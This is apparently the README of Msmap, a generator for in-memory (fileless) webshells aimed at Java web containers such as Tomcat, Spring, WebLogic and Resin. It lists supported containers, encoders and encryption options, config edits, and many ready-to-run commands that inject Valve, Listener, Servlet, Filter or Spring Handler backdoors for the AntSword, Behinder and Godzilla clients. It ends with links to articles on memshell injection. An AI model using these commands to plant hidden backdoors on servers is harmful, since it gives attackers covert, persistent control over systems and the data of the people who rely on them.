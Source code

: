# MSMAP

Msmap is a Memory WebShell Generator. Compatible with various Containers, Components, Encoder, *WebShell / Proxy / Killer* and Management Clients. [简体中文](README_CN.md)

[The idea behind I](https://hosch3n.github.io/2022/08/08/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%B8%80%EF%BC%89/), [The idea behind II](https://hosch3n.github.io/2022/08/09/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%BA%8C%EF%BC%89/), [The idea behind III](https://hosch3n.github.io/2022/10/29/Msmap%E5%86%85%E5%AD%98%E9%A9%AC%E7%94%9F%E6%88%90%E6%A1%86%E6%9E%B6%EF%BC%88%E4%B8%89%EF%BC%89/)

![](img/a.png)

![](img/b.png)

![](img/c.png)

<details>
<summary>Feature [WIP]</summary>

### Function

- [x] Dynamic Menu
- [x] Automatic Compilation
- [x] Generate Script
- [ ] Lite Mode
- [ ] Graphical Interface

### Container

- Java
  - [x] Tomcat7
  - [x] Tomcat8
  - [x] Tomcat9
  - [x] Tomcat10
  - [x] Resin3
  - [x] Resin4
  - [ ] WebSphere
  - [ ] GlassFish
  - [x] WebLogic
  - [ ] JBoss
  - [x] Spring*
  - [ ] Jetty
  - [ ] Netty
  - [x] JVM*
- .NET
  - [ ] IIS
- PHP
- Python

*: SpringHandler only support for JDK8+

*: JVM Default support for `Linux Tomcat 8/9`, more versions can be adapted according to the advanced guide.

### WebShell / Proxy / Killer

- WebShell
  - [x] CMD / SH
  - [x] AntSword
  - [x] JSPJS
  - [x] Behinder
  - [x] Godzilla

- No need for modularity

~~Proxy: Neo-reGeorg, wsproxy~~

~~Killer: java-memshell-scanner, ASP.NET-Memshell-Scanner~~

### Decoder / Decryptor / Hasher

- Decoder
  - [x] Base64
  - [ ] Hex
- Decryptor
  - [x] XOR
  - [x] RC4
  - [x] AES128
  - [x] AES256
  - [ ] RSA
- Hasher
  - [x] MD5
  - [x] SHA128
  - [x] SHA256

</details>

## Usage

``` bash
git clone git@github.com:hosch3n/msmap.git
cd msmap
python generator.py
```

> [Warning] MUST set a unique password, Options are case sensitive.

### Advanced

Edit `config/environment.py`

``` python
# Auto Compile
auto_build = True

# Base64 Encode Class File
b64_class = True

# Generate Script File
generate_script = True

# Compiler Absolute Path
java_compiler_path = r"~/jdk1.6.0_04/bin/javac"
dotnet_compiler_path = r"C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe"
```

Edit `gist/java/container/tomcat/servlet.py`

``` java
// Servlet Path Pattern
private static String pattern = "*.xml";
```

If an encryption encoder is used in WsFilter, the password needs to be the same as the path (eg `/passwd`)

`gist/java/container/jdk/javax.py` with `lib/servlet-api.jar` can be replaced depending on the target container.

`pip3 install pyperclip` to support automatic copying to clipboard.

## Example

<details>
<summary>CMD / SH</summary>

**Command** with **Base64** Encoder | Inject Tomcat Valve

`python generator.py Java Tomcat Valve Base64 CMD passwd`

</details>

<details>
<summary>AntSword</summary>

Type **JSP** with **default** Encoder | Inject Tomcat Valve

`python generator.py Java Tomcat Valve RAW AntSword passwd`

Type **JSP** with **[aes_128_ecb_pkcs7_padding_md5](extend/AntSword/encoder/aes_128_ecb_pkcs7_padding_md5.js)** Encoder | Inject Tomcat Listener

`python generator.py Java Tomcat Listener AES128 AntSword passwd`

Type **JSP** with **[rc_4_sha256](extend/AntSword/encoder/rc_4_sha256.js)** Encoder | Inject Tomcat Servlet

`python generator.py Java Tomcat Servlet RC4 AntSword passwd`

Type **JSP**  with **[xor_md5](extend/AntSword/encoder/xor_md5.js)** Encoder | AgentFiless Inject HttpServlet

`python generator.py Java JDK JavaX XOR AntSword passwd`

Type **JSPJS** with **[aes_128_ecb_pkcs7_padding_md5](extend/AntSword/encoder/aes_128_ecb_pkcs7_padding_md5.js)** Encoder | Inject Tomcat WsFilter

`python generator.py Java Tomcat WsFilter AES128 JSPJS passwd`

Type **JSPJS** with **[xor_md5](extend/AntSword/encoder/xor_md5.js)** Encoder | Inject Spring Handler

`python generator.py Java Spring Handler XOR JSPJS passwd`

</details>

<details>
<summary>Behinder</summary>

Type **default_aes** | Inject Tomcat Valve

`python generator.py Java Tomcat Valve AES128 Behinder rebeyond`

Type **default_xor_base64** | Inject Spring Interceptor

`python generator.py Java Spring Interceptor XOR Behinder rebeyond`

</details>

<details>
<summary>Godzilla</summary>

Type **JAVA_AES_BASE64** | Inject Tomcat Valve

`python generator.py Java Tomcat Valve AES128 Godzilla superidol`

Type **JAVA_AES_BASE64** | AgentFiless Inject HttpServlet

`python generator.py Java JDK JavaX AES128 Godzilla superidol`

Type **JAVA_AES_BASE64** | Inject Spring Handler

`python generator.py Java Spring Handler AES128 Godzilla superidol`

> [Known issue](https://github.com/BeichenDream/Godzilla/issues/76)

</details>

## Reference

[GodzillaMemoryShellProject](https://github.com/BeichenDream/GodzillaMemoryShellProject)

[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)

[As-Exploits memshell_manage](https://github.com/yzddmr6/As-Exploits/tree/master/core/memshell_manage)

[Behinder](https://github.com/rebeyond/Behinder) | [wsMemShell](https://github.com/veo/wsMemShell) | [ysomap](https://github.com/wh1t3p1g/ysomap)

<details>
<summary>Extended Reading</summary>

[利用“进程注入”实现无文件复活 WebShell](https://www.freebuf.com/articles/web/172753.html)

[基于内存 Webshell 的无文件攻击技术研究](https://landgrey.me/blog/12/)

[利用 intercetor 注入 spring 内存 webshell](https://landgrey.me/blog/19/)

[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)

[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)

[基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388)

[基于全局储存的新思路 | Tomcat的一种通用回显方法研究](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&amp;mid=2651374294&amp;idx=3&amp;sn=82d050ca7268bdb7bcf7ff7ff293d7b3)

[tomcat不出网回显连续剧第六集](https://xz.aliyun.com/t/7535)

[中间件内存马注入&冰蝎连接](https://paper.seebug.org/1441/#2mbeancontext)

[Java内存马：一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914)

[Java内存攻击技术漫谈](https://xz.aliyun.com/t/10075)

[Linux下内存马进阶植入技术](https://xz.aliyun.com/t/10186)

[Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)

[CVE-2022-22947 注入哥斯拉内存马](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)

[Linux下无文件Java agent探究](https://tttang.com/archive/1525/)

[论如何优雅的注入Java Agent内存马](https://xz.aliyun.com/t/11640)

</details>